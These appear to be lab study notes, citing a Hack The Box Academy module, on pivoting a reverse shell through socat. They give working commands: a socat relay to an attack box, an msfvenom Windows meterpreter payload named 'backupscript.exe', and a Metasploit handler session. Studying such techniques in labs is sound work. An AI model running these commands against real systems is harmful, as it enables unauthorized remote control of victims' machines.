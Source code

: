 Socat Redirection with a Reverse Shell
######################################

Date: 2024-11-02 14:33

Status:

Tags: 

Description
***********

Socat is a tool that creates pip sockets between 2 independent network channels.  Socat can listen on one host and port forward that data to another IP address. 

Given two boxes, attack server and pivot server. 


Example: setting up socat with a reverse shell
==============================================

Step 1: Start socat on the pivot server. 

.. code-block:: console

    socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

This creates a listener on 8080 and forwards all packets to our attack box on port 80. 

Step 2: Create a reverse shell payload for a Windows host

.. code-block:: console

    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080


Step 3: Start a multi/handler

.. code-block:: console 

    msf6 > use exploit/multi/handler

    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
    payload => windows/x64/meterpreter/reverse_https
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    lhost => 0.0.0.0
    msf6 exploit(multi/handler) > set lport 80
    lport => 80
    msf6 exploit(multi/handler) > run

    [*] Started HTTPS reverse handler on https://0.0.0.0:80

Once the session is established you can test the connection with :

.. code-block::

    meterpreter > getuid
    Server username: INLANEFREIGHT\victor


References
**********
https://academy.hackthebox.com/module/158/section/1430



